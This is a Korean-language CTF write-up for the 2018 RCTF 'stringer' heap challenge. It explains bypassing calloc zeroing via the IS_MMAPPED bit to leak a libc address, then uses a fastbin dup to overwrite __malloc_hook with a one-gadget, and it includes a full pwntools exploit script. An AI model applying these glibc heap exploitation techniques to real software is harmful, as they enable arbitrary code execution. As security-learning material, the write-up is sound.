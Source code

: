 ```yaml
---
title: "2018 RCTF stringer"
date: 2020-7-6
ctf: RCTF
layout: post
published : false
---
```


* calloc trick

show 메뉴가 존재했지만 기능은 없었다. 하지만 new할 때 넣은 content를 출력해준다. 하지만 할당할 때 calloc을 사용해서 할당한다는 점이다. calloc을 사용하게 되면 메모리 영역이 다 초기화 된다는 점이다.

 unsorted bin을 만들고 edit을 이용해서 다음청크의 사이즈 1을 증가시킬 수 있어서 IS_MMAPED를 set해주면 메모리를 초기화 하지 않는다는 점이다. calloc.c 코드에서 볼 수있다.

```c
if (chunk_is_mmapped (p))
  {
    if (__builtin_expect (perturb_byte, 0))
      return memset (mem, 0, sz);

    return mem;
  }
```

 그래서 이를 이용해서 같은 크기로 재할당해서 main_arena+88 주소를 leak할 수 있다. 이후에는 fastbin dup해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./stringer')
p = process('./stringer')
libc = e.libc
chunk = 0x0000000000202040

def new(size,content):
	p.sendlineafter(':','1')
	p.sendlineafter(':',str(size))
	p.sendlineafter(':',content)

def edit(idx,idx2):
	p.sendlineafter(':','3')
	p.sendlineafter(':',str(idx))
	p.sendlineafter(':',str(idx2))

def delete(idx):
	p.sendlineafter(':','4')
	p.sendlineafter(':',str(idx))

new(24,'A'*8) # 0 
new(0x100,'B'*8) # 1
new(0x100,'C'*8) # 2
delete(1)
edit(0,24) # set is_mmap
new(0x100,'B'*7) # 1 leak

libc_base = u64(p.recvuntil('\x7f')[-6:] + '\x00\x00') - (0x3c4b20 + 88)
log.info('libc_base : {}'.format(hex(libc_base)))
malloc = libc_base + libc.symbols['__malloc_hook']
log.info('__malloc_hook : {}'.format(hex(malloc)))
oneshot = libc_base + 0xf02a4
log.info('oneshot : {}'.format(hex(oneshot)))

new(0x60,'a') # 3
new(0x60,'a') # 4
new(0x60,'a') # 5

delete(4)
delete(5)
delete(4)

new(0x60,p64(malloc-0x23))
new(0x60,'b')
new(0x60,'b')
new(0x60,'A'*19+p64(oneshot))

new(0x60,'finish')

p.interactive()
```

# Reference

https://0xpwny.com/2019/03/14/bypass-calloc-zeroing-memory/

https://github.com/str8outtaheap/heapwn/blob/master/malloc/__libc_calloc.c#L89

https://github.com/andigena/ptmalloc-fanzine/tree/master/03-scraps

